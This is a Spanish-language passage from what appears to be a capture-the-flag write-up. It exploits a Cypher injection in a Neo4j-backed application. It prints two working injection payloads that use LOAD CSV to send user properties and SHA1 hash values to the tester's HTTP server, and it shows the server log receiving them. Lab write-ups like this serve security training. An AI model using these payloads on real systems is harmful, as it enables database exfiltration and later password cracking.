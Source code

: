 1. `MATCH (f:USER)`: Busca los nodos con el label `USER`.
2. `UNWIND keys(f) as p`: Obtiene todas las claves (propiedades) de los nodos `USER`.
3. `LOA`D CSV FROM: Exfiltra los valores de las propiedades a un servidor externo mediante el protocolo HTTP.
4. `http://10.10.16.37/?p=value`: Cada propiedad y su valor son enviados como parámetros de una solicitud HTTP GET.

```cypher
' OR 1=1 WITH 1 as a MATCH (f:USER) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.37/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //"
```

<figure><img src="../../.gitbook/assets/5335_vmware_NQiFENqkTN.png" alt=""><figcaption></figcaption></figure>

En el servidor web que disponemos montado, comprobamos que al tramitar la solicitud anterior, comprobamos que nos aparece como usuario el nombre de `graphasm`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:08:47] "GET /?name=graphasm HTTP/1.1" 200 -
```

La inyección Cypher que realizamos tiene como objetivo obtener información de la base de datos de Neo4j, específicamente de los nodos de tipo `SHA1`. Manipulando la consulta, conseguimos acceder a las claves de estos nodos y extraer sus valores, como los hashes, enviándolos a un servidor externo a través de un archivo CSV. Esto permite obtener datos sensibles que podrían usarse para realizar ataques posteriores, como el cracking de contraseñas.

```cypher
' OR 1=1 WITH 1 as a MATCH (f:SHA1) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.37/?' + p +'='+toString(coalesce(f[p], 'NULL')) as l RETURN 0 as _0 //
```

<figure><img src="../../.gitbook/assets/5336_vmware_EdvfdX4xdx.png" alt=""><figcaption></figcaption></figure>
